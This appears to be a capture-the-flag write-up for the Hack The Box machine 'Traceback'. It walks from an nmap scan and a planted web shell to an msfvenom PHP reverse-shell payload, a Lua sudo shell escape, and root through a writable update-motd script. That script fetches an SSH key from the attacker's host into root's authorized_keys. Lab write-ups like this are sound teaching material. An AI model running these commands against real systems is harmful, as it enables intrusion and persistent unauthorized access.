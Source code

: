 As always, we start with nmap - it comes back with ports 80 and 22 open, so naturally we go check out the web page.

>Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-09 12:10 EDT  
Nmap scan report for 10.10.10.181  
Host is up (0.036s latency).  
Not shown: 65533 closed ports  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:  
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)  
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)  
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)  
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
|_http-server-header: Apache/2.4.29 (Ubuntu)  
|_http-title: Help us  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

![websiteLanding](https://github.com/DefinitelyNotDex/Images/blob/master/HTB/Trace/webLanding.png)

Initially, my assumption was to jump into dirb or gobuster and try to enumerate where the mentioned backdoor might be, but that doesn't get us anything here.
Instead, hitting 'view page source' gives us this comment:

![websiteComment](https://github.com/DefinitelyNotDex/Images/blob/master/HTB/Trace/webComment.png)

If we google that phrase we get a Github page where the author is the same user who owned the site. 
Scrolling down the list of web shells, we can throw all of them into the end of the URL until one works for us.
If we also click on the Github link for that particular shell we get a set of default creds, which work nicely.

![webShell](https://github.com/DefinitelyNotDex/Images/blob/master/HTB/Trace/webShell.png)

Wonderful, we have a web shell. This shell is fully functional and you can use it to priv-esc to the actual user with minimal issues. I didn't want to deal with it, though, so I compiled my own php shell with msfvenom, uploaded it, set up a metasploit handler to catch the connection, accessed my shell url, and used that shell going forward:

>**msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php**

Once we have this shell, time to enumerate. You can do this manually, but to save time I used the linux enumeration script found [here](https://github.com/diego-treitos/linux-smart-enumeration), using wget to download the script directly to the machine:

>**wget "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -O lse.sh;chmod 700 lse.sh**

Running that script shows us that we have a command we're allowed to run as sudo, /home/sysadmin/luvit. If we also take a look at our home directory we have a file called note.txt which explains the sysadmin left us a way to mess around with lua, which is presumably that file. We can run the file with the following command:

>**sudo -u sysadmin /home/sysadmin/luvit**

Running it, however, gets us an error. Specifically, we get a *traceback* error that the script tries to call a method that doesn't exist. Going by the name of the machine, we're on the right track.

![luvitError](https://github.com/DefinitelyNotDex/Images/blob/master/HTB/Trace/luvitError.png)

Combing that output from the traceback might not give you much at first glance, but when I tried to throw the output of running luvit into a text file I noticed the error message was not included. What was included at the end of the file was a carrot character, which indicated to me that this might be the lua interpreter, similar to the python interpreter. Therefore, we might be able to pass it a command or script, which ended up working. I used [this](https://justhack.in/shell-escapes-cheatsheet) link to grab a very easy shell escape script, which I uploaded to the host, appended with the same luvit command, and ran:

>**sudo -u sysadmin /host/sysadmin/luvit shell.lua**

This got me a functional bash shell for the sysadmin user, but it was still coming through the webadmin user's meterpreter shell, which was a pain. I generated a second shell, this time just a standard linux reverse tcp meterpreter shell, uploaded it, created a new handler to catch the shell, and ran it as the sysadmin user to get a sysadmin meterpreter shell.

Now we have an actual user shell and can grab the user flag. 
Running the same linux enumeration script we used above shows that we can access and *write* to the /etc/.update-motd.d/ files, which are bash scripts that generate the welcome message when someone ssh's into the server. There is a script on this box that constantly overwrites them with the defaults, so we'll have to be fast when we use those to priv esc to root. To do so, we'll have to modify them, then immediately ssh into this host in order for the .update-motd.d script to run. 

Going back to the initial webadmin shell, we are able to navigate to /home/webadmin/.ssh and edit the authorized_keys file, which is the file that stores the public ssh key. We can then ssh back to the host as webadmin using the corresponding private key.

To do this, I used ssh-keygen to create the key pair on my local kali machine, dropped the public key into /home/webadmin/.ssh, and copied its contents into the authorized_keys file. Once that was done, I tested that I was able to ssh to the host as webadmin, and we're ready to exploit the .update-motd.d scropt. 

Since the etc/.upload-motd.d files are quickly overwritten (they're maybe there for 5-15 seconds before going back to the original set) I couldn't upload a reverse shell, as it would die rather quickly. What we can do as root, though, is add another set of ssh keys so we can just ssh to the box as root. To do so, we need to replace the motd file and ssh into the box as webadmin to execute the script before it is overwritten. Multiple shell windows queued and ready to go helps here. I hosted the directory with the ssh keys using python's SimpleHTTPServer, and grabbed them with the bash script that we replaced the motd header with:

Local machine (from the directory with the bash script '00-header' inside):
>**python -m SimpleHTTPServer 80**

Bash script:

>**#!/bin/sh**  
**wget http://10.10.14.4/root-key-rsa.pub -P /root/.ssh**  
**cat /root/.ssh/root-key-rsa.pub > /root/.ssh/authorized_keys**  

Sysadmin shell:

>**meterpreter>upload 00-header /etc/.update-motd.d/00-header**  
>**meterpreter> cat 00-header**

(that cat is to confirm 00-header is the correct file and hasn't been immediately overwritten)

Local machine (separate shell window)

>**ssh -i ./webadmin-rsa-key webadmin@10.10.10.181**

As long as the sysadmin shell command and the ssh command were done closely enough together and in sequence, the root ssh key overwrite works well. Now we can just ssh back to the host as root using that new ssh key, grab the root flag, and finish this box off entirely

>**ssh -i ./root-key-rsa root@10.10.10.181**
